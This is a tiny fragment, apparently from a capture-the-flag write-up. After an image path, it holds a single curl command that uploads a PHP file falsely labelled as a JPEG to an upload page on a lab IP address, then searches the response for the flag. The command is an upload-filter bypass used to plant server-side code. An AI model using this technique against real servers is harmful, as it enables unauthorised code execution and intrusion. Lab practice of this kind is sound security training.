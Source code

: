 curl -X POST -F "uploaded=@./file.php;type=image/jpeg" http://10.13.100.223/\?page\=upload -F "Upload=Upload" | grep flag